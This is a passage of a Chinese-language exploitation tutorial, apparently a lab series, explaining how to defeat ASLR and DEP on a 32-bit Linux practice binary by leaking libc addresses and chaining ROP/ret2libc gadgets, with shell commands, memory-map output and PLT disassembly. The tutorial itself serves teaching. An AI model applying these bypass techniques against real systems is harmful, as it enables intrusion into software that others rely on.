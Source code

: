 OK。测试成功。

## 0x03 ROP– Bypass DEP and ASLR 通过ROP绕过DEP和ASLR防护

接下来我们打开ASLR保护。

```
#!bash
sudo -s 
echo 2 > /proc/sys/kernel/randomize_va_space 
```

现在我们再回头测试一下level2的exp，发现已经不好用了。

```
#!bash
$python exp2.py 
[+] Started program './level2'
[*] Switching to interactive mode
[*] Program './level2' stopped with exit code -11
[*] Got EOF while reading in interactive 
```

如果你通过 `sudo cat /proc/[pid]/maps` 或者ldd查看，你会发现level2的libc.so地址每次都是变化的。

```
#!bash
cat /proc/[第1次执行的level2的pid]/maps b759c000-b7740000 r-xp 00000000 08:01 525196     /lib/i386-linux-gnu/libc-2.15.so b7740000-b7741000 ---p 001a4000 08:01 525196     /lib/i386-linux-gnu/libc-2.15.so b7741000-b7743000 r--p 001a4000 08:01 525196     /lib/i386-linux-gnu/libc-2.15.so b7743000-b7744000 rw-p 001a6000 08:01 525196     /lib/i386-linux-gnu/libc-2.15.so cat /proc/[第2次执行的level2的pid]/maps b7546000-b76ea000 r-xp 00000000 08:01 525196     /lib/i386-linux-gnu/libc-2.15.so b76ea000-b76eb000 ---p 001a4000 08:01 525196     /lib/i386-linux-gnu/libc-2.15.so b76eb000-b76ed000 r--p 001a4000 08:01 525196     /lib/i386-linux-gnu/libc-2.15.so b76ed000-b76ee000 rw-p 001a6000 08:01 525196     /lib/i386-linux-gnu/libc-2.15.so cat /proc/[第3次执行的level2的pid]/maps b7560000-b7704000 r-xp 00000000 08:01 525196     /lib/i386-linux-gnu/libc-2.15.so b7704000-b7705000 ---p 001a4000 08:01 525196     /lib/i386-linux-gnu/libc-2.15.so b7705000-b7707000 r--p 001a4000 08:01 525196     /lib/i386-linux-gnu/libc-2.15.so b7707000-b7708000 rw-p 001a6000 08:01 525196     /lib/i386-linux-gnu/libc-2.15.so 
```

那么如何解决地址随机化的问题呢？思路是：我们需要先泄漏出libc.so某些函数在内存中的地址，然后再利用泄漏出的函数地址根据偏移量计算出system()函数和 `/bin/sh` 字符串在内存中的地址，然后再执行我们的ret2libc的shellcode。既然栈，libc，heap的地址都是随机的。我们怎么才能泄露出libc.so的地址呢？方法还是有的，因为程序本身在内存中的地址并不是随机的，如图所示：

![](http://img0.tuicool.com/vmmYFbz.png!web)

Linux内存随机化分布图

所以我们只要把返回值设置到程序本身就可执行我们期望的指令了。首先我们利用objdump来查看可以利用的plt函数和函数对应的got表：

```
#!bash
$ objdump -d -j .plt level2

Disassembly of section .plt:

08048310 <read@plt>:
 8048310:   ff 25 00 a0 04 08       jmp    *0x804a000
 8048316:   68 00 00 00 00          push   $0x0
 804831b:   e9 e0 ff ff ff          jmp    8048300 <_init+0x30>

08048320 <__gmon_start__@plt>:
 8048320:   ff 25 04 a0 04 08       jmp    *0x804a004
 8048326:   68 08 00 00 00          push   $0x8
 804832b:   e9 d0 ff ff ff          jmp    8048300 <_init+0x30>

08048330 <__libc_start_main@plt>:
 8048330:   ff 25 08 a0 04 08       jmp    *0x804a008
 8048336:   68 10 00 00 00          push   $0x10
```
